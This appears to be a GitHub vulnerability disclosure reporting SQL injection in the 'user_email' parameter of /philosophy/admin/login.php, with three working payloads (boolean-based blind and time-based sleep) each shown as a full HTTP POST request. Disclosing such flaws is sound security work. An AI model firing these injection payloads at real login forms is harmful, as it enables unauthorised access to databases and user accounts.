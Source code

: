BUG_Author: heitaoa999

Vulnerability File: /philosophy/admin/login.php

POST parameter 'user_email' exists SQL injection vulnerability

Payload1:user_email=a' rlike (select (case when (666=666) then 0x61 else 0x28 end))-- b&user_pass=b&btnLogin=

```
POST /philosophy/admin/login.php HTTP/1.1
Host: localhost
Content-Length: 100
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/philosophy/admin/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=erriivuolh0rb2ucknp2nmpolf
Connection: close

user_email=a' rlike (select (case when (666=666) then 0x61 else 0x28 end))-- b&user_pass=b&btnLogin=
```

boolean-based blind return correct

![image](https://github.com/heitaoa999/bug_report/blob/main/pictures/sql1.png)

Payload2:user_email=a' rlike (select (case when (666=555) then 0x61 else 0x28 end))-- b&user_pass=b&btnLogin=

```
POST /philosophy/admin/login.php HTTP/1.1
Host: localhost
Content-Length: 100
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/philosophy/admin/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=erriivuolh0rb2ucknp2nmpolf
Connection: close

user_email=a' rlike (select (case when (666=555) then 0x61 else 0x28 end))-- b&user_pass=b&btnLogin=
```

boolean-based blind return an error

![image](https://github.com/heitaoa999/bug_report/blob/main/pictures/sql2.png)

Payload3:user_email=a' and (select 1 from (select(sleep(20)))a)-- a&user_pass=b&btnLogin=

```
POST /philosophy/admin/login.php HTTP/1.1
Host: localhost
Content-Length: 80
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/philosophy/admin/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=erriivuolh0rb2ucknp2nmpolf
Connection: close

user_email=a' and (select 1 from (select(sleep(20)))a)-- a&user_pass=b&btnLogin=
```

The server response time is 20 seconds

![image](https://github.com/heitaoa999/bug_report/blob/main/pictures/sql3.png)
